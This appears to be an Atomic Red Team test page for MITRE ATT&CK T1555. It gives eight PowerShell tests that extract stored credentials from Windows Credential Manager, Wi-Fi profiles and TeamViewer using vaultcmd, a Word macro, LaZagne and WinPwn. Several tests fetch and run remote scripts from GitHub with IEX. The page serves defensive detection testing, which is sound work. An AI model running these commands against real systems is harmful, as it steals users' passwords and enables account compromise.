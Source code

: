 # T1555 - Credentials from Password Stores

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)

<blockquote>Adversaries may search for common password storage locations to obtain user credentials. Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications and services that store passwords to make them easier for users to manage and maintain, such as password managers and cloud secrets vaults. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)

- [Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]](#atomic-test-2---dump-credentials-from-windows-credential-manager-with-powershell-windows-credentials)

- [Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]](#atomic-test-3---dump-credentials-from-windows-credential-manager-with-powershell-web-credentials)

- [Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]](#atomic-test-4---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-windows-credentials)

- [Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]](#atomic-test-5---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-web-credentials)

- [Atomic Test #6 - WinPwn - Loot local Credentials - lazagne](#atomic-test-6---winpwn---loot-local-credentials---lazagne)

- [Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials](#atomic-test-7---winpwn---loot-local-credentials---wifi-credentials)

- [Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords](#atomic-test-8---winpwn---loot-local-credentials---decrypt-teamviewer-passwords)

<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA

This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows

**auto_generated_guid:** 234f9b7c-b53d-4f32-897b-b880a6c9ea7b

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:

```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft Word must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  $process = "winword"
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]

This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows

**auto_generated_guid:** c89becbe-1758-4e7d-a0f4-97d2188a23e3

#### Attack Commands: Run with `powershell`!

```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
```

<br/>
<br/>

## Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]

This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows

**auto_generated_guid:** 8fd5a296-6772-4766-9991-ff4e92af7240

#### Attack Commands: Run with `powershell`!

```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
```

<br/>
<br/>

## Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]

This module will enumerate credentials stored in Windows Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows

**auto_generated_guid:** 36753ded-e5c4-4eb5-bc3c-e8fba236878d

#### Attack Commands: Run with `powershell`!

```powershell
vaultcmd /listcreds:"Windows Credentials" /all
```

<br/>
<br/>

## Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]

This module will enumerate credentials stored in Web Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows

**auto_generated_guid:** bc071188-459f-44d5-901a-f8f2625b2d2e

#### Attack Commands: Run with `powershell`!

```powershell
vaultcmd /listcreds:"Web Credentials" /all
```

<br/>
<br/>

## Atomic Test #6 - WinPwn - Loot local Credentials - lazagne

The [LaZagne project](https://github.com/AlessandroZ/LaZagne) is an open source application used to retrieve lots of passwords stored on a local computer.
Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.).
This tool has been developed for the purpose of finding these passwords for the most commonly-used software

**Supported Platforms:** Windows

**auto_generated_guid:** 079ee2e9-6f16-47ca-a635-14efcd994118

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
lazagnemodule -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials

Loot local Credentials - Wifi Credentials technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** afe369c2-b42e-447f-98a3-fb1f4e2b8552

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
wificreds -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords

Loot local Credentials - Decrypt Teamviewer Passwords technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** db965264-3117-4bad-b7b7-2523b7856b92

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
decryptteamviewer -consoleoutput -noninteractive
```

<br/>
